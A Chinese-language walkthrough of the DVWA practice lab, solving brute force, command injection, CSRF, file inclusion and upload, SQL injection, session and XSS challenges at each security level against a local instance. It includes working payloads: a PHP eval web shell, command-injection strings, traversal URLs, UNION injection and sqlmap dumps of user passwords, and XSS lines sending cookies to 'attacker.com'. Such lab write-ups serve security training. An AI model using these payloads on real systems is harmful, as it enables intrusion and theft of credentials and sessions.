



# DVWA

## Brute Force

暴力破解，直接BurpSuite

### Security Low

直接BurpSuite抓包，放进Intruder里面跑字典


然后跑出admin/password

这组账号密码，也可以将admin进行爆破，看一下是否有另外的账号密码，这里就不跑了


当然也可以直接万能密码

```
admin' or '1'='1
admin' or '1'='1
```


### Security Medium

一样做法，只不过万能密码不能用，这里就不赘述了，直接爆破出密码


### Security High

这里就加了token验证了，但是每一次爆破都会进行修改token，所以要用bp来获取每次报文的token进行爆破，具体操作如下：


还是intruder模块，攻击类型选择`Pitchfork`，添加两个payload位置，分别是password和token的位置。

然后payload1就是照常指定字典，或者其他的密码本，这里为了快速过，就输入几个密码了


然后在设置的Grep-Extract中进行勾选添加，

先获取响应，然后选中token的地方，最后点击确认。


然后就是设置payload2选择递归提取，然后复制首次的token进去，注意，复制的首次token指的是获取响应包中的token


然后爆破就可以了


### Security Impossible

可以看到源代码部分check的token的种类加了，并且还有登录失败次数和锁账户时间，很好把爆破破解这一漏洞的危害给降低。


## Command Injection

命令执行，本质上就是对用户输入的东西没有进行过滤

危害：可以拿到主机权限

### Security Low

没有任何限制，直接模仿linux的命令进行输入即可


将它视为ping命令之后接上你要执行的恶意命令

直接输入

```
127.0.0.1 | ls
```

那它执行的就是

```
ping -c 4 127.0.0.1 | ls
```

这一关要学习的是管道符的使用还是各种重定向输入输出


由于是Windows环境，所以我们可以召唤计算器大法


### Security Medium

看源码，他是将`&&`和`;`给过滤掉，所以我们还是可以使用 `|`进行绕过

```
127.0.0.1 | ls
```


当然也可以

```
127.0.0.1&ls
```


或者

```
127.0.0.1&;&ls
```

这个绕过姿势就是看脑洞了


### Security High

打靶场就可以看源码，但是真实渗透的话就要一个个去尝试了，所以记住这些符号的作用也是挺关键的

这里进行过滤：


```
127.0.0.1 |ls
```

注意看他过滤的`| `后面是有一个空格的，所以直接贴着不就可以了吗

```
127.0.0.1 |ipconfig
```


### Security Impossible

这个是安全级别的，可以看到具体防护的函数，设置了`token` ，检查输入是否为数字，这个就是基本上没有漏洞的写法

```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $target = $_REQUEST[ 'ip' ];
    $target = stripslashes( $target );

    // Split the IP into 4 octects
    $octet = explode( ".", $target );

    // Check IF each octet is an integer
    if( ( is_numeric( $octet[0] ) ) && ( is_numeric( $octet[1] ) ) && ( is_numeric( $octet[2] ) ) && ( is_numeric( $octet[3] ) ) && ( sizeof( $octet ) == 4 ) ) {
        // If all 4 octets are int's put the IP back together.
        $target = $octet[0] . '.' . $octet[1] . '.' . $octet[2] . '.' . $octet[3];

        // Determine OS and execute the ping command.
        if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
            // Windows
            $cmd = shell_exec( 'ping  ' . $target );
        }
        else {
            // *nix
            $cmd = shell_exec( 'ping  -c 4 ' . $target );
        }

        // Feedback for the end user
        echo "<pre>{$cmd}</pre>";
    }
    else {
        // Ops. Let the user name theres a mistake
        echo '<pre>ERROR: You have entered an invalid IP.</pre>';
    }
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```


## CSRF

### Security Low

```
http://127.0.0.1/vulnerabilities/csrf/?password_new=1234&password_conf=1234&Change=Change#
```

get请求修改

然后回到Brute Force页面，可以看到使用`admin/1234`是可以登录成功的


然后将上面的链接进行修改，模拟受害者访问包含这个链接的网站，就可以做到修改密码的目的了

同一浏览器访问：

```
http://127.0.0.1/vulnerabilities/csrf/?password_new=123456789&password_conf=123456789&Change=Change#
```

此时的1234密码已经被改了，需要123456789才能登录进去！


### Security Medium

当同一浏览器输入这个链接的时候，修改密码失败

```
http://127.0.0.1/vulnerabilities/csrf/?password_new=4321&password_conf=4321&Change=Change#
```

`That request didn't look correct.`

查看源代码发现做了一个校验

```php
 if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) 
```


使用BP抓包，修改http请求报文的`referer`，就可以伪造了。

```
Referer: http://127.0.0.1/vulnerabilities/csrf/?password_new=4321&password_conf=4321&Change=Change
```

### Security High

看源代码可以发现，使用了token进行验证，再加上referer的验证

```
GET /vulnerabilities/csrf/?password_new=1234&password_conf=1234&Change=Change&user_token=0d90a1e2b141c59904ccab5246abfba9 HTTP/1.1

Referer: http://127.0.0.1/vulnerabilities/csrf/?password_new=1234&password_conf=1234&Change=Change&user_token=a5b5512d2b8b19132156bbd6dc8bdd37
```


可以通过`F12`查找发现`user_token`每一次都在进行改变，一般隐藏在表单的上下，随着表单提交的时候也提交上去

每一个的提交，服务器会返回一个新的token，接下来用这个新的token进行请求伪造即可


```
http://127.0.0.1/vulnerabilities/csrf/?password_new=1234&password_conf=1234&Change=Change&user_token=3bdfc9c8c55185c756b989511ba21e20
```


### Security Impossible

```
http://127.0.0.1/vulnerabilities/csrf/?password_current=1234&password_new=4321&password_conf=4321&Change=Change&user_token=79c63cb0ffa4f49caad1919d923fc36a#
```

基本上啥都验证了，在referer、token的基础上加上查询验证旧密码，黑客无法得知也无法伪造，故基本无法进行伪造修改密码。


## File Inclusion

文件包含，就是访问服务器上的文件没有进行限制

### Security Low

非常简单的一句

```
$file = $_GET[ 'page' ];
```

那就直接访问file4.php即可


FI造成的危害还不止访问这个网站上的文件，还可以突破到服务器上的文件

比如我在WWW根目录之外一层放了一个flag.txt文件，这样子访问也是可以访问到的。

```
http://127.0.0.1/vulnerabilities/fi/?page=../../../../flag.txt
```


这边也开启了远程包含，所以可以在后面加上网址进行访问

```
http://127.0.0.1/vulnerabilities/fi/?page=http://www.baidu.com
```


### Security Medium

看源码

```php
<?php
$file = $_GET[ 'page' ];
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\\" ), "", $file );
?>
```

可以看到过滤的东西

所以尝试构造，还是上面那两个本地包含和远程包含


防护程序将`http://`换成空格，那我们尝试双写绕过

```
http://127.0.0.1/vulnerabilities/fi/?page=hthttp://tp://www.baidu.com
```

访问成功


防护程序将`../`换成空格，那我们尝试双写绕过

```
http://127.0.0.1/vulnerabilities/fi/?page=..././..././..././..././flag.txt
```

也是绕过成功！


### Security High

直接进行文件名比对了

```php
<?php
$file = $_GET[ 'page' ];
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
    echo "ERROR: File not found!";
    exit;
}
?>
```

使用file函数进行构造

```
http://127.0.0.1/vulnerabilities/fi/?page=file://C:\Environment\phpstudy_pro\flag.txt
```

也是可以访问到的


### Security Impossible

安全的做法就是限制用户能够访问的资源，就是设立白名单，规定哪些资源用户可以进行访问

```php
<?php
$file = $_GET[ 'page' ];
$configFileNames = [
    'include.php',
    'file1.php',
    'file2.php',
    'file3.php',
];
if( !in_array($file, $configFileNames) ) {
    echo "ERROR: File not found!";
    exit;
}
?>
```

这样用户只能访问这四个文件，而不能访问其他文件或者远程包含。


## File Upload

文件上传，要配合蚁剑等工具使用比较方便。

### Security Low

直接一句话木马，写成一个文件进行上传。

```
<?php @eval($_POST['cmd'])?>
```


显示：

```
../../hackable/uploads/shell.php succesfully uploaded!
```


然后就可以拿到权限了，接下来可以弄个内存马之类的维持权限。




### Security Medium

可以看到它对上传文件的类型和大小进行了限制

```
if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) &&
        ( $uploaded_size < 100000 ) ) {
```

那直接抓包修改报文头试一下

要修改文件类型`Content-Type`


放行协议包也可以看到，已经上传成功了，后续的步骤和low是一模一样的。


### Security High

检验报文头、检验文件名、检验大小、检验文件类型

这时候可以想到图片马，先将一个照片和shell.php创建好

然后使用命令行进行拼接，一句话木马插到图片文件的末端，因为做了文件头的限制

```
copy  xxx.png/b + shell.php/a shell.png
```

可以看到已经上传成功了


但明显现在无法直接使用，所以要综合应用其他漏洞进行改名后使用，我们返回到`Command Injection` ，直接根据返回的路径进行修改文件名称。

```
127.0.0.1|move ../../hackable/uploads/shell.png ../../hackable/uploads/shell.php
```

修改成功，后续步骤依旧是蚁剑连接。

### Security Impossible

做出更多的限制，上传的文件进行改名，比如换成md5的文件名，但是暴露给用户的依旧是初始的文件名。还有一些限制自己去看源码。


## Insecure CAPTCHA

要对`C:\Environment\phpstudy_pro\WWW\DVWA-master\config\config.inc.php`进行配置

要在`https://www.google.com/recaptcha/admin/create`该网址进行注册，然后将密钥啥的弄过来。

当然需要一点科学上网


### Security Low


修改step的值为2即可绕过

源代码里面写了

```php
if( isset( $_POST[ 'Change' ] ) && ( $_POST[ 'step' ] == '1' ) )
```


### Security Medium

也是一样改包

```php
if( isset( $_POST[ 'Change' ] ) && ( $_POST[ 'step' ] == '2' ) )

if( !$_POST[ 'passed_captcha' ] )
```

只不过多了一个POST的`passed_captcha`

改为True即可


### Security High

```php
$_POST[ 'g-recaptcha-response' ] == 'hidd3n_valu3'
&& $_SERVER[ 'HTTP_USER_AGENT' ] == 'reCAPTCHA'
```

进行响应的修改就可以了


### Security Impossible

可以看到需要输入你的旧密码，攻击者在不知道的情况下，永远不可能攻击成功


## SQL Injection

SQL注入，一个危害性较大的漏洞，但是现在改用预编译语句，基本没有那种简单的SQL注入了

### Security Low

输入

```
1'
```

报错，所以为字符型注入


```
1' or '1' = '1
```

爆人名了


爆项数


只有2才是正确的，其他都会报错


```
-1' union select 1,database()#
```

爆出库名为`dvwa`


```
1' union select 1,group_concat(table_name) from information_schema.tables where table_schema = 'dvwa'#
```

爆出表名`guestbook,users`


```
1' union select 1 , group_concat(column_name) from information_schema.columns where table_name = 'users' #
```

爆出字段名`user_id,first_name,last_name,user,password,avatar,last_login,failed_login`


```
1' union select user,password from users#
```

获取账号密码


### Security Medium

没有输入了，直接进行选择，这种情况就要抓包看一下。然后放到repeater里面，修改id的值，其余不动。

```
1+1 报错，数字型
```

试输出列数，为2

```
1 order by 2#
```


后面都是一致的，只不过在BP里面进行而已。


```
1 union select 1,database()#
```

爆出库名`dvwa`


```
1 union select 1,group_concat(table_name) from information_schema.tables where table_schema = 'dvwa'#
```

爆出表名`guestbook,users`


```
1 union select 1 , group_concat(column_name) from information_schema.columns where table_name = 'users' #
```

爆出字段名`user_id,first_name,last_name,user,password,avatar,last_login,failed_login`


```
1 union select user,password from users#
```

获取账号密码


### Security High

输入

```
1'
```

报错，所以还是一样


```
1' union select 1,database()#
```

爆出库名为`dvwa`


```
1' union select 1,group_concat(table_name) from information_schema.tables where table_schema = 'dvwa'#
```

爆出表名`guestbook,users`


```
1' union select 1 , group_concat(column_name) from information_schema.columns where table_name = 'users' #
```

爆出字段名`user_id,first_name,last_name,user,password,avatar,last_login,failed_login`


```
1' union select user,password from users#
```

获取账号密码




### Security Impossible

可以看到关键的一步就是限制为纯数字

```
if(is_numeric( $id ))
```


### SQLMap工具注入

#### Security Low

记住要加上cookie

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli/?id=1&Submit=Submit#" -v 3 --cookie="PHPSESSID=kdrdnbrglpb6o5relntdaiec81; security=low"
```

然后一直按y即可


爆破数据库：

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli/?id=1&Submit=Submit#" -v 3 --cookie="PHPSESSID=kdrdnbrglpb6o5relntdaiec81; security=low" --dbs
```


爆破数据库中的表：

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli/?id=1&Submit=Submit#" -v 3 --cookie="PHPSESSID=kdrdnbrglpb6o5relntdaiec81; security=low" -D dvwa --tables
```


爆破列：

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli/?id=1&Submit=Submit#" -v 3 --cookie="PHPSESSID=kdrdnbrglpb6o5relntdaiec81; security=low" -D dvwa -T users --columns
```


爆破用户字段：

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli/?id=1&Submit=Submit#" -v 3 --cookie="PHPSESSID=kdrdnbrglpb6o5relntdaiec81; security=low" -D dvwa -T users -C user --dump
```


爆破密码字段：

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli/?id=1&Submit=Submit#" -v 3 --cookie="PHPSESSID=kdrdnbrglpb6o5relntdaiec81; security=low" -D dvwa -T users -C password --dump
```


#### Security Medium

可以看到这个是使用POST方法来进行传递的

抓包发现传递的数据包，然后直接使用sqlmap即可

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli/" --data "id=1&Submit=Submit"  --cookie="PHPSESSID=c5emugcincc74avtcvj0f65mns; security=medium" 
```

发现危险注入的地方


爆库

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli/" --data "id=1&Submit=Submit"  --cookie="PHPSESSID=c5emugcincc74avtcvj0f65mns; security=medium" --dbs
```


爆表

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli/" --data "id=1&Submit=Submit"  --cookie="PHPSESSID=c5emugcincc74avtcvj0f65mns; security=medium" -D dvwa --tables
```


爆列

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli/" --data "id=1&Submit=Submit"  --cookie="PHPSESSID=c5emugcincc74avtcvj0f65mns; security=medium" -D dvwa -T users --columns
```


爆用户字段

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli/" --data "id=1&Submit=Submit"  --cookie="PHPSESSID=c5emugcincc74avtcvj0f65mns; security=medium" -D dvwa -T users -C user --dump
```


爆密码字段

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli/" --data "id=1&Submit=Submit"  --cookie="PHPSESSID=c5emugcincc74avtcvj0f65mns; security=medium" -D dvwa -T users -C password --dump
```

也可以直接进行md5的解密


#### Security High

由于是在第二个页面，所以要进行联合查询命令

```
--second-u "http://192.168.10.129:3000/vulnerabilities/sqli/"
```

尝试

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli/session-input.php" --data "id=1&Submit=Submit" --second-u "http://192.168.10.129:3000/vulnerabilities/sqli/" --cookie="PHPSESSID=c5emugcincc74avtcvj0f65mns; security=high" 
```

也是可以查找出危险点


爆库

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli/session-input.php" --data "id=1&Submit=Submit" --second-u "http://192.168.10.129:3000/vulnerabilities/sqli/" --cookie="PHPSESSID=c5emugcincc74avtcvj0f65mns; security=high" --dbs
```


爆表

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli/session-input.php" --data "id=1&Submit=Submit" --second-u "http://192.168.10.129:3000/vulnerabilities/sqli/" --cookie="PHPSESSID=c5emugcincc74avtcvj0f65mns; security=high" -D dvwa --tables
```


爆列

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli/session-input.php" --data "id=1&Submit=Submit" --second-u "http://192.168.10.129:3000/vulnerabilities/sqli/" --cookie="PHPSESSID=c5emugcincc74avtcvj0f65mns; security=high" -D dvwa -T users --columns
```


爆用户字段

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli/session-input.php" --data "id=1&Submit=Submit" --second-u "http://192.168.10.129:3000/vulnerabilities/sqli/" --cookie="PHPSESSID=c5emugcincc74avtcvj0f65mns; security=high" -D dvwa -T users -C user --dump
```


爆密码字段

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli/session-input.php" --data "id=1&Submit=Submit" --second-u "http://192.168.10.129:3000/vulnerabilities/sqli/" --cookie="PHPSESSID=c5emugcincc74avtcvj0f65mns; security=high" -D dvwa -T users -C password --dump
```


## SQL Injection（Blind）

盲注就是无回显。盲注挺多的，布尔、时间，建议这类题目学会写脚本，或者使用SQLmap工具进行注入。

### Security Low

验证由注入漏洞，但是无回显

```
1' and 1=1#
```


爆破库名长度

```
1' and length(database())=n#
```


爆破库的名字

```
 1' and ascii(substr(database(),1,1))=100 # 
```


爆破表的名字

```
1' and (select count(table_name) from information_schema.tables where table_schema=database())=2 #
```


后面都是一样的流程，zhibu

### Security Medium

也是和SQL Injection一样，在协议包里面进行注入


### Security High

和上面一样


### Security Impossible

也是一样，token加上数字的限制。


### SQLMap工具注入

#### Security Low

一样做法

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=c5emugcincc74avtcvj0f65mns; security=low"
```


库：

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=c5emugcincc74avtcvj0f65mns; security=low" --dbs
```


表：

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli_blind/?id=1&Submit=Submit#"  --cookie="PHPSESSID=c5emugcincc74avtcvj0f65mns; security=low" -D dvwa --tables
```


列：

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=c5emugcincc74avtcvj0f65mns; security=low" -D dvwa -T users --columns
```


用户字段：

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=c5emugcincc74avtcvj0f65mns; security=low" -D dvwa -T users -C user --dump
```


密码字段：

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=c5emugcincc74avtcvj0f65mns; security=low" -D dvwa -T users -C password --dump
```

由于是盲注，所以最后的答案应该是一位一位试出来的


#### Security Medium

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli_blind/" --data "id=1&Submit=Submit"  --cookie="PHPSESSID=c5emugcincc74avtcvj0f65mns; security=medium" 
```


爆库

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli_blind/" --data "id=1&Submit=Submit"  --cookie="PHPSESSID=c5emugcincc74avtcvj0f65mns; security=medium" --dbs
```


爆表

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli_blind/" --data "id=1&Submit=Submit"  --cookie="PHPSESSID=c5emugcincc74avtcvj0f65mns; security=medium" -D dvwa --tables
```


爆列

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli_blind/" --data "id=1&Submit=Submit"  --cookie="PHPSESSID=c5emugcincc74avtcvj0f65mns; security=medium" -D dvwa -T users --columns
```


爆用户字段

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli_blind/" --data "id=1&Submit=Submit"  --cookie="PHPSESSID=c5emugcincc74avtcvj0f65mns; security=medium" -D dvwa -T users -C user --dump
```


爆密码字段

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli_blind/" --data "id=1&Submit=Submit"  --cookie="PHPSESSID=c5emugcincc74avtcvj0f65mns; security=medium" -D dvwa -T users -C password --dump
```


#### Security High

注入点在cookie中

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli_blind/cookie-input.php" --data "id=1&Submit=Submit" --second-u "http://192.168.10.129:3000/vulnerabilities/sqli_blind/" --cookie="id=1; PHPSESSID=c5emugcincc74avtcvj0f65mns; security=high" --batch
```


爆库：

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli_blind/cookie-input.php" --data "id=1&Submit=Submit" --second-u "http://192.168.10.129:3000/vulnerabilities/sqli_blind/" --cookie="id=1; PHPSESSID=c5emugcincc74avtcvj0f65mns; security=high" --dbs
```

爆表：

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli_blind/cookie-input.php" --data "id=1&Submit=Submit" --second-u "http://192.168.10.129:3000/vulnerabilities/sqli_blind/" --cookie="id=1; PHPSESSID=c5emugcincc74avtcvj0f65mns; security=high" -D dvwa --tables
```

爆列：

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli_blind/cookie-input.php" --data "id=1&Submit=Submit" --second-u "http://192.168.10.129:3000/vulnerabilities/sqli_blind/" --cookie="id=1; PHPSESSID=c5emugcincc74avtcvj0f65mns; security=high" -D dvwa -T users --columns
```

爆字段：

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli_blind/cookie-input.php" --data "id=1&Submit=Submit" --second-u "http://192.168.10.129:3000/vulnerabilities/sqli_blind/" --cookie="id=1; PHPSESSID=c5emugcincc74avtcvj0f65mns; security=high" -D dvwa -T users -C "user,password" --dump
```

盲注一般所花的时间较长，不管是布尔盲注还是时间盲注都是要不断在每一个位置上循环遍历所有字符的！


## Weak Session IDs

弱会话劫持

### Security Low

点击生成一个新的cookie


然后打开另一个不同的浏览器用于演示，同样是访问这个页面，正常是直接跳转到登录页面的，此时在报文中加上`Cookie`

可以发现会话的Session是递增的，所以很容易被攻击者发现和推测。

```
cookie:dvwaSession=1; PHPSESSID=hmagim2c17epkg2m4tu60acklf; security=low
```

就可以成功劫持会话进行访问了。


### Security Medium

源代码如下

```php
<?php
$html = "";
if ($_SERVER['REQUEST_METHOD'] == "POST") {
    $cookie_value = time();
    setcookie("dvwaSession", $cookie_value);
}
?>
```

可以看到session使用了时间戳，那么攻击者可以预测受害者特定的时间点进行访问，又或者网站本身就有一些需要获取时间戳的特定操作，也可以通过这些来进行获取。


具体时间戳的转换也很容易，php本身也是可以进行转换的。


```
cookie:dvwaSession=1736598747; PHPSESSID=hmagim2c17epkg2m4tu60acklf; security=medium
```

一样可以进行劫持。


### Security High

高级一点

```php
<?php
$html = "";
if ($_SERVER['REQUEST_METHOD'] == "POST") {
    if (!isset ($_SESSION['last_session_id_high'])) {
        $_SESSION['last_session_id_high'] = 0;
    }
    $_SESSION['last_session_id_high']++;
    $cookie_value = md5($_SESSION['last_session_id_high']);
    setcookie("dvwaSession", $cookie_value, time()+3600, "/vulnerabilities/weak_id/", $_SERVER['HTTP_HOST'], false, false);
}
?>
```

md5加上时间戳的cookie


拿着那个密文进行md5解密，发现解出来是`1`，所以还是可以进行破解的，只不过多了一层md5加密，会话ID还是递增。


```
cookie:dvwaSession=c4ca4238a0b923820dcc509a6f75849b; PHPSESSID=hmagim2c17epkg2m4tu60acklf; security=high
```


### Security Impossible

```php
<?php
$html = "";
if ($_SERVER['REQUEST_METHOD'] == "POST") {
    $cookie_value = sha1(mt_rand() . time() . "Impossible");
    setcookie("dvwaSession", $cookie_value, time()+3600, "/vulnerabilities/weak_id/", $_SERVER['HTTP_HOST'], true, true);
}
?>
```

随机数+时间戳+固定字符串"Impossible"，再进行sha1运算，最大程度上保证了强对话。


## XSS (Reflected)

### Security Low


没啥好说，没有过滤，直接提交

```
<script>alert('xss');</script>
```

直接就可以了

这里模拟拿到cookie

```
<script>alert(document.cookie);</script>
```


危害就是可以把cookie发到某个远程服务器上

```
<script>document.location='http://attacker.com/?cookie=' + document.cookie;</script>
```


### Security Medium

还是上面那个最简单的payload，然后看输出情况


这种可能是检测`script`、`<>`，一个个试嘛，大写、双写、加号、转码

直接大写绕过

```
<Script>alert('xss');</Script>
```


```
<Script>alert(document.cookie);</Script>
```


### Security High

看一下源代码

```php
<?php
header ("X-XSS-Protection: 0");
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );
    echo "<pre>Hello {$name}</pre>";
}
?>
```

试一下换东西，可以发现，它过滤了`<script>`标签里面包含的所有东西包括该标签


那我们就不用script标签了，还有很多种方法，看你脑洞了。

```

```

```
<button onclick=alert(1) >xss</button>
```


### Security Impossible

使用这个`htmlspecialchars`函数进行过滤。用于将一些预定义的字符转换为 HTML 实体，以防止 HTML 注入攻击。


## XSS (Stored)

### Security Low

存储型，就是持久性的xss，每次访问都会出发js脚本


直接提交

```
<script>alert(1);</script>
```

可以看到每一次点开这个页面都会弹窗


```
var img = new Image();
img.src = "http://xxx.xxx/cookies.php?cookie="+document.cookie;
```


### Security Medium


可以看到源码中进行过滤

```
$name = str_replace( '<script>', '', $name );
```

那我们直接双写绕过或者是大小写绕过

还有一个就是前端进行了输入的长度限制，这里直接F12修改一下就好了

```
<Script>alert(1)</Script>
```

这样子每次访问这个Stored页面的时候都会弹窗了


下面是双写绕过，也是OK的。

```
<scr<script>ipt>alert(1)</script>
```


### Security High

还是一样进行过滤

```php
$name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $name );
```


做法其实和反射型的差不多，直接使用其他的触发方式即可

```
<button onclick=alert(1) >xss</button>
```

```

```


### Security Impossible

防护程序对输入的值进行了一些处理

```php
$message = trim( $_POST[ 'mtxMessage' ] );
$name    = trim( $_POST[ 'txtName' ] );
$message = stripslashes( $message );
$message = htmlspecialchars( $message );
$name = stripslashes( $name );
$name = htmlspecialchars( $name );
```


## XSS (DOM)

### Security Low

选择的English的时候可以发现它的链接在改变，所以直接将English更改为

```
http://127.0.0.1/vulnerabilities/xss_d/?default=<script>alert('xss');</script>
```

就完成了本次实验

可以看到程序将js恶意脚本插进了dom树中


### Security Medium

观察源码可以发现它对`<script` 进行了检验，所以选择其他姿势进行绕过

然后观察发现，需要先将`select`标签进行闭合，不然img和button都无法起作用。

故最终的部分payload如下：

```
</select><button onclick=alert(1) >xss</button>
```

```
</select>
```


### Security High

可以看到源码做出了进一步的白名单化访问限制

```php
switch ($_GET['default']) {
        case "French":
        case "English":
        case "German":
        case "Spanish":
            # ok
            break;
        default:
            header ("location: ?default=English");
            exit;
    }
```


这里我们采用锚部分弹窗

页面的锚部分弹窗是一种网页交互元素。“锚（anchor）” 在网页中通常是指超链接定位的标记，用于在一个页面内快速定位到特定的位置。而 “弹窗（pop - up）” 是指在页面之上弹出的一个小窗口或者小框体，用于显示一些额外的信息，如提示框、警告框、模态对话框等。

```
#</select><button onclick=alert(1) >xss</button>
```

```
#</select>
```


### Security Impossible

看源代码，哈哈哈，做多错多。

```php
<?php
# Don't need to do anything, protection handled on the client side
?>
```


## CSP ByPass

Content Security Policy (CSP) Bypass

### Security Low

F12点开网络，

可以看到


做了安全措施的白名单限制

可以去CSP中指定的任何一个网址进行写js脚本然后执行

这里直接用这个作为演示了

```
https://digi.ninja/dvwa/alert.js
```

显示`CSP Bypassed`


### Security Medium


不再限定白名单了，而是含有这个`script-src`来源的许可证就OK了。

```
Content-Security-Policy: script-src 'self' 'unsafe-inline' 'nonce-TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=';
```


payload:

```
<script nonce='TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA='>alert(1)</script>
```


### Security High

看源代码，限定了来源self，POST方式发送

```
function clickButton() {
    var s = document.createElement("script");
    s.src = "source/jsonp.php?callback=solveSum";
    document.body.appendChild(s);
}
```

